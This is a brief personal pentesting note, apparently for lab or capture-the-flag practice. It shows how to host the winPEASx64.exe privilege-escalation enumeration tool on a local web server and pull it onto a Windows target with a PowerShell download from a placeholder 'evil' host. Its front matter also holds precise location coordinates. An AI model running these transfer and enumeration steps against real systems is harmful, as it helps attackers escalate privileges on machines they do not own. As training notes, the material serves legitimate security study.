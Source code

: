 ```yaml
---
title: winPEASx64.exe
updated: 2025-04-30 10:49:01Z
created: 2025-04-30 10:45:21Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


1. Serve the winPEASx64.exe binary via a web server
`cp /usr/share/peass/winpeas/winPEASx64.exe .`
`python3 -m http.server 80`
2. On the client, download using:
Powershell: `iwr -uri http://<evil>/winPEASx64.exe -Outfile winPEAS.exe`
3. Run winpeas